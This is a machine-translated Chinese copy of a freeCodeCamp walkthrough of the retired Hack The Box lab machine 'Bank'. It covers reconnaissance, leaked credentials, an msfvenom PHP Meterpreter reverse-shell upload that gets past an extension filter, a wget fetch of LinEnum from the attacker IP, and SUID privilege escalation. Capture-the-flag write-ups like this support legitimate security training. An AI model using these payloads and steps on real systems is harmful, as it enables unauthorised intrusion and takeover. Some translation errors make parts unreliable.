# 保持冷静，黑掉盒子银行

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-bank/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

**注**。*只允许报道退役的 HTB 机器。*



银行是一个相对简单的机器，但是正确的网络枚举是找到必要的输入数据的关键

我们将使用以下工具将机器典当到一个 [Kali Linux 机器](https://www.kali.org/)上:

*   nmap
*   gobuster
*   Searchsploit
*   msfconsole
*   metasploit
*   水表读数器
*   LinEnum

让我们开始吧。

## 第一步-侦察

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获取尽可能多的信息总是更好的。

## 端口扫描

我将使用 Nmap(网络映射器)。Nmap 是一个用于网络发现和安全审计的免费开源工具。它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看一下文档[这里](https://tools.kali.org/information-gathering/nmap)。



我使用以下命令来执行密集扫描:

```
nmap -A -v bank.htb
```

**-A:** 启用操作系统检测、版本检测、脚本扫描和跟踪路由

**-v:** 增加详细级别

**bank.htb:** 银行信箱的主机名

如果您发现结果有点太多，您可以执行另一个命令来只获取开放的端口。

```
nmap bank.htb
```



我们可以看到有 3 个开放的端口:

**端口 22** ，安全外壳(SSH)，安全登录，文件传输(scp，sftp)和端口转发

**端口 53** ，域名系统(DNS)

****端口** 80** ，最常被超文本传输协议使用

## 目录扫描

我用的是 Gobuster。Gobuster 是一个用 Go 编写的目录扫描器。关于工具[的更多信息请点击](https://tools.kali.org/web-applications/gobuster)。Gobuster 使用 Kali 上的单词表，它们位于****/usr/share/word lists****目录中。我用的是来自 **dirb** 和 **dirbuster** 的词表，但是你可以从**sec lists**这里下载更多词表

我对 dirb common.txt 单词表使用这个命令

```
gobuster dir -u bank.htb -w /usr/share/wordlists/dirb/common.txt
```



我能看见一些有趣的文件夹。我用不同的单词表做了另一个目录扫描。

```
gobuster dir -u bank.htb -w /usr/share/worldlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```



## 第 2 步-访问网页

在侦察阶段，我决定从 80 端口开始。它指向一个 Apache2 Ubuntu 默认页面。我们需要设置主机名。我们将遵循 HTB 机器的标准惯例



我在/etc/hosts 文件中添加了 bank

```
nano /etc/hosts
```

随着

```
10.10.10.29     bank.htb
```



我检查了文件

```
cat /etc/hosts
```



当我导航到 bank.htb 时，我现在可以看到一个登录页面



我在“捉鬼敢死队”侦察中找到了一些文件夹。我导航到**/余额转移**



我看了几份文件。所有文件似乎都加密了全名、电子邮件和密码。



我返回主页，点击**大小**选项卡，对转账进行分类。我可以看到其中一个文件是不同的



当我点击该文件时，我会在顶部看到一条错误消息。此文件的加密失败。我可以看到纯文本的所有细节



我返回登录面板，输入凭证。我现在可以进入 HTB 银行的仪表板了。该页面没有任何有趣的内容，所以我转到了**支持**页面



在支持页面上，我可以上传文件。我会试着上传一个有效载荷



## **步骤 3 -** 使用 MSFvenom 精心设计漏洞

我们将使用 MSFvenom，它是一个有效载荷生成器。你可以在这里了解更多信息



但是首先，让我们看看在 **[Metasploit 框架](https://www.metasploit.com/)** 上，我们可以使用哪个有效载荷来精心设计我们的漏洞

我们知道我们需要创建一个**反向 shell** ，这是一种目标机器与攻击机器进行通信的 shell。攻击机器有一个侦听器端口，它在该端口上接收连接，通过使用，可以执行代码或命令。


[https://resources.infosecinstitute.com/icmp-reverse-shell/](https://resources.infosecinstitute.com/icmp-reverse-shell/)

反向的 TCP 外壳应该用于 PHP，我们将使用 **Meterpreter**

从攻击性安全网站上，我们得到了 Meterpreter 的这个定义

> Meterpreter 是一个高级的、可动态扩展的有效负载，它使用*内存中的* DLL 注入阶段，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API。它具有命令历史，标签完成，渠道，等等。

你可以在这里阅读更多关于 Meterpreter [的信息](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)



我启动 **Metasploit** 并搜索反向 TCP 有效负载。我使用以下命令

```
search php meterpreter reverse_tcp
```

我发现一个有趣的有效载荷，编号 594，这是一个**反向 TCP Stager** 。该负载通过反射 Dll 注入负载注入 meterpreter 服务器 DLL，并连接回攻击者

```
payload/php/meterpreter/reverse_tcp
```

现在让我们回到 **msfvenom** 来设计我们的漏洞



我使用以下命令

```
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.36 lport=443 -f raw > HTBbankshell.php
```

然后我用 **ls** 检查文件是否已经创建



我对文件进行了编目，以查看漏洞利用

```
cat HTBbankshell.php
```



我返回到支持页面。我在表单上添加标题、消息和上传文件



我单击提交按钮，看到一条错误消息。文件类型似乎不起作用



我检查了源代码，看到一条注释指出文件扩展名为**。htb** 只是为了调试的目的才需要执行 php



然后我将我的有效载荷的扩展名从**HTBbankshell.php**改为 **HTBbankshell.htb**



我的文件现在可以上传到支持页面了



而且好像很管用！有效负载已上传到支持页面



## **步骤 4 -** 使用 Metasploit 设置监听器

回到 Metasploit，我使用下面的命令来设置有效负载处理程序

```
use exploit/multi/handler
```

我首先设置了有效载荷

```
set payload php/meterpreter/reverse_tcp
```

然后是 LHOST

```
set lhost 10.10.14.36
```

最后是 LPORT

```
set lport 4444
```

如果我们现在检查选项，我们应该看到一切都设置好了



让我们运行漏洞。

该消息出现后

```
Started reverse TCP handler on 10.10.14.36:4444
```

返回浏览器并刷新托管恶意脚本的页面

```
bank.htb/uploads/HTBbankshell.php
```



然后，您应该会看到创建了一个 Meterpreter 会话



我首先用返回调用进程的真实用户 id 的 getuid 和 sysinfo 收集一些信息



## **步骤 5 -寻找 user.txt 标志**

我开始导航到根目录并列出文件夹/文件。



我用移动到 **home** 目录

```
cd home
```

我可以看到一个叫**克里斯**的用户



我移动到克里斯目录，当我列出文件时...



我找到了 **user.txt** 文件！为了读取文件的内容，我使用了以下命令

```
cat user.txt
```

现在我们有了用户标志，让我们找到根标志！

## 步骤 6 -执行权限提升

我尝试导航到根文件夹，但访问被拒绝



我会用 **LinEnum** 来枚举这台机器的更多信息。 **LinEnum** 用于脚本化的本地 Linux 枚举和权限提升检查。更多信息[点击这里](https://github.com/rebootuser/LinEnum)

我从 **GitHub** 中获取 LinEnum

```
wget https://https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```



我用这个命令检查脚本是否被正确提取

```
ls -la
```



我使用以下命令

```
chmod 777 LinEnum.sh
```

更改文件权限，使其对每个人都可读、可写和可执行



在 meterpreter 中，我用

```
lls -S "LinEnum.sh"
```



我在另一个终端上用

```
php -S 10.10.14.36:4444
```



我键入以下命令在目标系统上获得标准 shell

```
shell
```

我生了一个 TTY 贝壳

```
python3 -c 'import pty;pty.spawn("/bin/bash/")'
```

我把文件传输到机器上

```
wget http://10.10.14.36:4444/LinEnum.sh -O /tmp/LinEnum.sh
```

我把文件从我的 Kali 盒复制到机器的 temp 文件夹



然后，我导航到临时文件夹，检查文件是否被正确移动



然后，我用

```
sh ./LinEnum.sh
```



扫描给了我很多信息。我寻找**有趣的文件**部分。我查了一下 **SUID 档案的**部分。 **SUID** 被定义为给予用户临时许可，以文件所有者的许可而不是运行程序/文件的用户的许可来运行程序/文件

我发现了一个有趣的文件

```
/var/htb/bin/emergency
```



我导航到 **var/htb/emergency**



我用它运行

```
./emergency
```

而且问我要不要弄个根壳:)



我有这台机器的超级用户权限



我现在可以导航到根文件夹



我找到了 **root.txt** 文件！

为了读取文件的内容，我使用了以下命令

```
cat root.txt
```

恭喜你。你找到了两面旗子！

* * *

请随时评论、提问或与朋友分享:)

你可以在这里看到更多我的文章

你可以在推特上关注我，也可以在 T2 的 LinkedIn 上关注我

还有别忘了# ****GetSecure**** ，#****be secure****&#****stay secure****！

* * *

**其他黑盒子文章**

*   [保持冷静，黑掉瘸子](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
*   [保持冷静，黑掉盒子——遗产](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/)
*   保持冷静，黑掉盒子
*   [保持冷静，黑盒子——哔](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-beep/)
*   [保持冷静，黑盒子——最佳](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-optimum/)
*   [保持冷静，黑掉盒子——北极](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-arctic/)
*   [保持冷静，黑掉盒子——爷爷](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-grandpa/)
*   [保持冷静，黑掉盒子奶奶](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-granny/)

